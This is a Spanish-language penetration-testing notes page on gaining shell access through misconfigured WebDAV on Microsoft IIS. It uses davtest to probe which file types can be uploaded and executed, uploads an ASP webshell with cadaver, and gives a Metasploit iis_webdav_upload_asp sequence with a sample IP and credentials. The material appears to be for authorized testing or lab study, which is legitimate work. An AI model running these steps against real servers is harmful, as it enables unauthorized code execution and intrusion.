 # Microsoft IIS / WebDAV

## File Upload Abusing

En base a ciertas posibles configuraciones en WebDAV. Con credenciales validas, podremos subir archivos y explotarlos, de esta manera obtendremos acceso a la maquina.

En primer lugar necesitamos saber que tipos de archivos son permitidos subir y ejecutar. Sobre todo nos interesa PHP, ASP, ASPX, JSP. Para comprobar los archivos ejecutables, usaremos la herramienta davtest. En este caso si no hay autenticación:

```bash
davtest -url http://192.168.1.1/webdav
```

Si necesitamos credenciales especificas:

```bash
davtest -auth usuario:contraseña -url http://192.168.1.1/webdav
```

Por lo tanto se suben los archivos:

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y comprueba si se pueden ejecutar:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cadaver

Ahora, usaremos la herramienta cadaver para subir y descargar archivos del WebDAV.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Subimos una webshell. Elegimos una escrita en asp:

```bash
/usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Accedemos:

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Podemos usar metasploit para subir la web shell:

```perl
msfconsole

use exploit/windows/iis/iis_webdav_upload_asp

set RHOSTS 10.0.17.27

set HttpUsername bob

set HttpPassword password_123321

set PATH /webdav/metasploit%RAND%.asp

exploit
```

